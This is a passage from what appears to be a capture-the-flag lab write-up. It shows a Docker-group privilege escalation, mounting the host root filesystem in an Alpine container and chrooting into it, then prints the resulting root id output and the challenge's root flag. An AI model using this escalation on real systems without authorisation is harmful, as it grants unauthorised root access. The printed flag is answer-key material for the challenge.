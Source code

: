![10](https://github.com/Knign/Write-ups/assets/110326359/c8d985c8-c12e-40e9-b33c-944de4720325)

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
- Let's use the exploit without the `sudo`.
```
anurodh@ubuntu:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```
- We are now the `root` user and can read the root flag.
```
# cat /root/proof.txt
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}}
```
### Answer
```
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}}
```
